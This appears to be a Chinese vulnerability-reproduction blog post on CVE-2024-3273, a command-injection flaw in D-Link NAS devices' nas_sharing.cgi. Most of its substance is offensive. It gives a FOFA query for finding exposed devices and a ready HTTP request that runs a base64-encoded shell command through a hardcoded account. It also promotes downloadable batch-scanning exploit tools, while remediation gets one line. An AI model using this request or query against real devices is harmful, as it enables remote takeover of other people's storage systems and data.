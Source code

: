 #  D-Link NAS设备nas_sharing.cgi接口存在远程命令执行漏洞CVE-2024-3273   
南风徐来  南风漏洞复现文库   2024-04-08 23:40  
  
免责声明：请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 1. D-Link NAS设简介  
  
微信公众号搜索：南风漏洞复现文库 该文章 南风漏洞复现文库 公众号首发  
  
D-Link DNS-320是中国友讯（D-Link）公司的一款NAS（网络附属存储）设备。  
## 2.漏洞描述  
  
D-Link DNS-320是中国友讯（D-Link）公司的一款NAS（网络附属存储）设备。D-Link DNS-320L存在命令注入漏洞，该漏洞源于文件/cgi-bin/nas_sharing.cgi存在命令注入漏洞。受影响的产品和版本：D-Link DNS-320L，DNS-325，DNS-327，DNS-340L，D-Link NAS Storage。  
  
CVE编号:CVE-2024-3273  
  
CNNVD编号:CNNVD-202404-524  
  
CNVD编号:  
## 3.影响版本  
  
受影响的产品和版本：D-Link DNS-320L，DNS-325，DNS-327，DNS-340L，D-Link NAS Storage  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYPqsgXHtMRQGh2aEfw2ibCuEdXPfzxZ7tpzGVAxHoU7kpwlticiaDtbl7A/640?wx_fmt=jpeg&from=appmsg "null")  
  
D-Link NAS设备nas_sharing.cgi接口存在远程命令执行漏洞  
## 4.fofa查询语句  
  
body="Text:In order to access the ShareCenter"  
## 5.漏洞复现  
  
漏洞链接：https://127.0.0.1/cgi-bin/nas_sharing.cgi?user=messagebus&passwd=&cmd=15&system=aWQ=  
  
漏洞数据包：  
```
GET /cgi-bin/nas_sharing.cgi?user=messagebus&passwd=&cmd=15&system=aWQ= HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```  
  
其中aWQ= 是id命令的base64编码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYNrI7ZknOuJL8ullYqlxslBByvZiaY8bbaHs3SNy2sThMNfrCc6H0qlg/640?wx_fmt=jpeg&from=appmsg "null")  
## 6.POC&EXP  
  
关注公众号 南风漏洞复现文库 并回复 漏洞复现120 即可获得该POC工具下载地址：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYx5OZyhTsicziaBZuiauH1n062fttFQVKCCnmEHx4W0fSFOBPQ98o5rrGw/640?wx_fmt=jpeg&from=appmsg "null")  
  
本期漏洞及往期漏洞的批量扫描POC及POC工具箱已经上传知识星球：南风网络安全1: 更新poc批量扫描软件，承诺，一周更新8-14个插件吧，我会优先写使用量比较大程序漏洞。2: 免登录，免费fofa查询。3: 更新其他实用网络安全工具项目。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYg8VTuyguKc3a46NwlhFaNGXFQbVQaVSP7xdkpCoIc1w3kxXKKBLp6g/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYlQFaFOTOw82kD4aBJicXKdKh4B9m53ey6ibU6IDF1PUkOcWIMgj6ND7Q/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYGBW6dbnxxDfLg0tehSTsSXicm8iaSKasXbD8bwGFzeggWoKXwib9UYPYg/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLYt9cWynBwgn9VEvz85G55z8pibgUTwP5B13uq9R6Kn7icaJ5FGGvnr8BA/640?wx_fmt=jpeg&from=appmsg "null")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/HsJDm7fvc3bdWHhMKHia31IhIVFicGpqLY7XvP8sFRxVl0iafzYjSw58ROmYpNzkkvNoecicYGVliaAbwypbjjNkm5g/640?wx_fmt=jpeg&from=appmsg "null")  
## 7.整改意见  
  
请联系官方打补丁  
## 8.往期回顾  
  
[畅捷通TPlus KeyInfoList.aspx存在SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486062&idx=2&sn=734033609e43c27806a2754a4c12a4ef&chksm=974b8769a03c0e7fe12e9dbedd78f5e19804367e6a38f1e6dea528444b70aad476ef119f7f3e&scene=21#wechat_redirect)  
  
  
[用友U9 PatchFile.asmx接口存在任意文件上传漏洞](http://mp.weixin.qq.com/s?__biz=MzIxMjEzMDkyMA==&mid=2247486033&idx=1&sn=9871ceeb9777fa646c0de20494af9e69&chksm=974b8756a03c0e401f267c15fd34df9f3ca2bd3a10b87efc707df3b4677f60157207c8c72178&scene=21#wechat_redirect)  
  
  
  
  
